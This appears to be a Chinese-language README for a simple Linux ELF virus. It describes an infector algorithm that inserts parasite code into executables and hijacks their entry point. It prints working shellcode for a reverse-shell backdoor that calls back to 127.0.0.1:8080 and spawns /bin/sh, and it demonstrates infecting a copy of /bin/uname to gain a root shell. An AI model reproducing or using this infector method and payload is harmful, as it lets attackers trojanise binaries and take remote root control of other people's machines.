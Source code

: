 # 简易Linux的ELF病毒

## 1.原理

ELF = Executable and Linkable Format，可执行连接格式，是UNIX系统实验室（USL）作为应用程序二进制接口（Application BinaryInterface，ABI）而开发和发布的，也是Linux的主要可执行文件格式。

Executable and linking format(ELF)文件是x86 Linux系统下的一种常用目标文件(object file)格式，有三种主要类型:

* 适于连接的可重定位文件(relocatable file)，可与其它目标文件一起创建可执行文件和共享目标文件。

* 适于执行的可执行文件(executable file)，用于提供程序的进程映像，加载的内存执行。

* 共享目标文件(shared object file),连接器可将它与其它可重定位文件和共享目标文件连接成其它的目标文件，动态连接器又可将它与可执行文件和其它共享目标文件结合起来创建一个进程映像。

Linux的ELF病毒的原理跟Windows的PE病毒原理是类似的。首先把ELF文件把插入ELF文件中，然后把程序入口定位到病毒代码，等到病毒代码执行完毕后，把程序的控制权归还给宿主程序。

ELF文件格式说明地址：[http://www.cnblogs.com/xmphoenix/archive/2011/10/23/2221879.html](http://www.cnblogs.com/xmphoenix/archive/2011/10/23/2221879.html)

ELF病毒原理：[http://linux.chinaunix.net/techdoc/system/2009/04/30/1109647.shtml](http://linux.chinaunix.net/techdoc/system/2009/04/30/1109647.shtml)

以下是病毒感染器算法，源自《UNIXELF Parasites and virus》：

1. 检测文件文件是否是ELF格式的可执行文件,如果否那么返回
2. 在病毒程序的某偏移位置打上设置真实地址的地址的补丁（该偏移位置需要通过反汇编得到的该位置的内存地址减去-病毒代码的内存起始位置）
3. 查找到该文件的Text Segment的结尾是否有足够的剩余空间能够容下病毒代码,如果否，那么返回
4. 把病毒的长度填充到PAGE_SIZE
5. 修改该Text Segment的 p_filesz和 p_memsz加上病毒代码实际的长度(而不是填充到的PAGE_SIZE)
6. 修改程序入口指向病毒程序的入口(p_vaddr + 上面更新后的p_filesz)
7. 给所有地址在病毒代码后面的Segment的p_offset加上PAGE_SIZE
8. 查找指向Text Segment的结尾的Section,使该Section的sh_size加上病毒代码的长度
9. 给所有地址在病毒代码后面的Section的p_offset加上PAGE_SIZE
10. 修改elf头结构里的e_shoff加上PAGE_SIZE
11. 创建一个临时文件拷贝上面的修改过的结构和原有的数据,并且在TextSegment的结尾插入病毒代码
12. 把该临时文件的所有者属性和权限属性用chown和chmod改成和该文件的一致，然后用rename替换该文件。

## 2. 相关代码

ELF文件感染器的源代码文件是efl_insfect.c，其中变量parasite存着病毒代码，变量plength为病毒代码长度，变量hentry为返回宿主的返回地址的偏移量，这偏移量是相对病毒代码的偏移量，变量entry为病毒入口的偏移量，是相对病毒代码的偏移量。变量special_code为特征码。

病毒源代码代码文件为door.s，该文件是使用汇编写的后们程序，汇编不是使用Intel风格，是使用 AT&T 格式。

因为病毒不能直接调用C语言函数，在Linux的底层是通过中断的方式调用系统调用，中断号80h，该中断有些参数，EAX存着系统调用号，每个系统调用都有自己的系统调用号，EBX，ECX，EDX，ESI，EDI为系统调用的参数。例如调用exit(1)，代码如下：

```assembly
movl  $1, %ebx  #exit系统调用
movl $1, %eax  #exit系统调用号为1
int $0x80
```

尽管病毒是使用汇编写，其实病毒比较简单，是一个**socket后门，是一个反弹后门**。

接下来编译一下door.s：

```
as -o door.o door.s
```

生成door.o文件，是一个未链接的程序，不可执行，但是可以通过反汇编提取机器码，命令：

```
objdump -d door.o
```

提取出来的机器码如下：

```c
"\x50\x53\x51\x52\x55\x89\xe5\x83\xec\x60\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x0f\x85\xff\x00\x00\x00\xc7\x44\x24\x08\x00\x00\x00\x00"
"\xc7\x44\x24\x04\x01\x00\x00\x00\xc7\x04\x24\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xbb\x01\x00\x00\x00\x89\xe1\xcd\x80\x89\x44\x24\x14\x83"
"\xf8\x00\x0f\x88\xc4\x00\x00\x00\xc7\x44\x24\x18\x10\x00\x00\x00\xc7\x44\x24\x1c\x00\x00\x00\x00\xc7\x44\x24\x20\x00\x00\x00\x00\xc7\x44"
"\x24\x24\x00\x00\x00\x00\xc7\x44\x24\x28\x00\x00\x00\x00\x66\xc7\x44\x24\x1c\x02\x00\xc7\x44\x24\x20\x7f\x00\x00\x01\x66\xc7\x44\x24\x1e"
"\x1f\x90\x8b\x44\x24\x18\x89\x44\x24\x08\x8d\x44\x24\x1c\x89\x44\x24\x04\x8b\x44\x24\x14\x89\x04\x24\xb8\x66\x00\x00\x00\xbb\x03\x00\x00"
"\x00\x89\xe1\xcd\x80\x83\xf8\x00\x78\x5c\xb9\x00\x00\x00\x00\x8b\x5c\x24\x14\xb8\x3f\x00\x00\x00\xcd\x80\xb9\x01\x00\x00\x00\x8b\x5c\x24"
"\x14\xb8\x3f\x00\x00\x00\xcd\x80\xb9\x02\x00\x00\x00\x8b\x5c\x24\x14\xb8\x3f\x00\x00\x00\xcd\x80\xc7\x45\xec\x2f\x62\x69\x6e\xc7\x45\xf0"
"\x2f\x73\x68\x00\x8d\x7d\xec\x89\x7d\xf8\xc7\x45\xfc\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\x89\xfb\x8d\x4d\xf8\xba\x00\x00\x00\x00\xcd"
"\x80\x89\xc3\xb8\x01\x00\x00\x00\xcd\x80\x83\xc4\x60\x5d\x5a\x59\x5b\x58\x68\x78\x56\x34\x12\xc3"
```

还有一个后门的服务器，代码为server.c，进行编译：

```
gcc server.c -o server
```



## 3. 测试

运行server：

```
./servwer
```

![run server](img/1.jpg)

我感染/bin/uname程序为例子，为了以免破坏了原来uame程序，我把uname复制出来，看看能不能运行。

![run uname](img/2.jpg)

可以看出可以运行。

接下来运行ELF病毒感染器：![inspector](img/3.jpg)

就这样病毒感染完毕。

接下来再运行一下uname：

![run infected uname](img/4.jpg)

可以看出uname可以正常运行，并且可以看到服务器server有了反应，说明病毒代码是有运行的，接下来就可以操作后门了。![do backdor](img/5.jpg)

如果被感染的程序以超级用户的权限运行后会这样的。

![run backdoor](img/6.jpg)

可以看出这个反弹后门获得了root权限了。